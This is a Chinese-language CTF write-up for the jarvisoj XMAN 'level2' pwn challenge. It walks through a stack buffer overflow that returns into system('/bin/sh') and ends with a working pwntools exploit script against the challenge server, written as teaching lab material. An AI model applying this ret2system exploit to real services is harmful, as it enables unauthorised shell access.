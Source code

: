 ```yaml
---
layout:     post
title:      jarvisoj [XMAN]level2
author:     wooy0ung
tags: 		pwn
category:  	writeup
---
```



>Problem Address:  
>https://www.jarvisoj.com  
>  
>Download:  
>https://dn.jarvisoj.com/challengefiles/level2.54931449c557d0551c4fc2a10f4778a1  
>  
>Address:  
>nc pwn2.jarvisoj.com 9878  
<!-- more -->


### 0x00 可执行文件特征

```
file level2
checksec level2
chmod a+x ./level2
./level2
```

![](/assets/img/writeup/pwn/2017-06-16-jarvisoj-level2/0x00.png)

![](/assets/img/writeup/pwn/2017-06-16-jarvisoj-level2/0x01.png)


### 0x02 放到IDA里分析

直接反编译成C语言，存在read溢出函数和system函数，可令read溢出构造system("\bin\sh")

![](/assets/img/writeup/pwn/2017-06-16-jarvisoj-level2/0x02.png)

查看system的地址

![](/assets/img/writeup/pwn/2017-06-16-jarvisoj-level2/0x03.png)

查看/bin/sh的地址

![](/assets/img/writeup/pwn/2017-06-16-jarvisoj-level2/0x04.png)

计算缓冲区到返回地址的距离，0x88个字节

![](/assets/img/writeup/pwn/2017-06-16-jarvisoj-level2/0x05.png)

![](/assets/img/writeup/pwn/2017-06-16-jarvisoj-level2/0x06.png)


### 0x02 最后的exploit如下


```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *
payload = 'A' * (0x88 + 0x04) + p32(0x08048320) + p32(0) + p32(0x0804A024)
# Io = process('./level2')
Io = remote('pwn2.jarvisoj.com', 9878)
Io.send(payload)
Io.interactive()
```

得到flag

![](/assets/img/writeup/pwn/2017-06-16-jarvisoj-level2/0x07.png)
